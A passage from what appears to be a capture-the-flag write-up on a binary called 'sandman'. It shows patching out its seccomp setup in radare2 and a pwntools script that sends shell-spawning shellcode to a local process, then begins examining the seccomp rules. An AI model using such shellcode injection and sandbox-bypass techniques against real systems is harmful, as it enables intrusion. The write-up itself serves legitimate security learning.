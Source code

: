 Note the `-w` flag to open in read/write mode. You can also use `oo+` to change
the mode in the radare shell. I navigated to the following point in visual
mode.

```
│     ││└─> 0x00401008      bf00000000     mov edi, 0
│     ││    0x0040100d      e83ef9ffff     call sym.imp.seccomp_init
```

Using the visual assembler (press `A`) you can easily patch binaries. I just
inserted a `jmp` instruction to the piece of code that executes our shellcode.

```
│    ┌──└─> 0x00401008      e9de000000     jmp 0x4010eb
│    │││    0x0040100d      e83ef9ffff     call sym.imp.seccomp_init
```

I used the [pwntools](https://github.com/Gallopsled/pwntools) fork
[binjitsu](https://binjitsu.readthedocs.org/), which has a couple of nice
improvements, such as ROP on `x86_64`, to interact with the binary. And indeed
it does give us a nice shell.

```python
from pwn import *  # NOQA

context.os = 'linux'
context.arch = 'amd64'

vulnbin = "./sandman_noseccomp"
velf = ELF(vulnbin)

sc = asm(shellcraft.amd64.linux.sh())

vp = process(vulnbin)
#vp = remote(...)

vp.send(p32(len(sc)))
vp.send(sc)

vp.clean_and_log()
vp.interactive()
```


### Seccomp Sandbox

So let's see what the seccomp sandbox allows us to do. There interesting parts
are the calls to `seccomp_rule_add`, which has the following signature:

```
int seccomp_rule_add(scmp_filter_ctx ctx,  // rdi
                     uint32_t action,      // rsi
                     int syscall,          // rdx
                     unsigned int arg_cnt, // rcx
                     ...);

#define SCMP_ACT_ALLOW    0x7fff0000U
```
